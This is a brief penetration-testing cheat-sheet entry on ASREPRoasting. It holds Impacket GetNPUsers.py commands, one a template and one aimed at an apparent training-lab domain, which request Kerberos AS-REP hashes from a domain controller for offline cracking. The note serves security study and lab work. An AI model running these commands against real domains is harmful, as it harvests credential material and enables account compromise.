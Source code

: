 -- -
#### ASREPRoasting
[[ASREPRoasting]]
```bash
# May require a valid userlist to work
GetNpUsers.py <domain>/ -dc-ip <dc ip> --no-pass -userfile <userlist>
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

^ca377d

